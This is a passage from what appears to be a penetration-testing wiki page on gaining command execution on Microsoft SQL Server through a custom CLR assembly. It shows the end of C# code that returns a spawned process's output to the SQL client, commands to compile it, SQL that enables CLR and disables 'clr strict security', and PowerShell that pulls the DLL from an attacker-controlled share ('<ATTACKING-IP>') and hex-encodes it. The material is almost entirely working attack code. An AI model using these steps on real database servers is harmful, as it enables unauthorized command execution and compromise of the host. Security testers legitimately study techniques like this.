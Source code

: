 ```csharp
        
        // Mark the beginning of the result set.
        SqlContext.Pipe.SendResultsStart(record);
        // Set values for each column in the row
        record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());
        // Send the row back to the client.
        SqlContext.Pipe.SendResultsRow(record);
        
        // Mark the end of the result set.
        SqlContext.Pipe.SendResultsEnd();
        
        proc.WaitForExit();
        proc.Close();
    }
};
```
{% endcode %}

```bash
# Example of compiling from Windows
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library c:\temp\cmd_exec.cs

# Example of compiling from Linux
mono-csc -platform:x64 -unsafe core/templates/loaderTemplate/template.cs -r:System.Data /target:library -out:cmd_exec.dll
```

We should know enable CLR:&#x20;

```sql
use msdb

EXEC sp_configure 'show advanced options',1
RECONFIGURE

EXEC sp_configure 'clr enabled',1
RECONFIGURE

EXEC sp_configure 'clr strict security', 0
RECONFIGURE
```

Convert the compiled DLL (.NET Assembly) to hexadecimal:

```powershell
$assemblyFile = "\\<ATTACKING-IP>\cmd_exec.dll"
$stringBuilder = New-Object -Type System.Text.StringBuilder
$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
    $stringBuilder.Append($byte.ToString("X2")) | Out-Null
}
$stringBuilder.ToString() -join "" | Out-File SqlCmdExec.txt
```
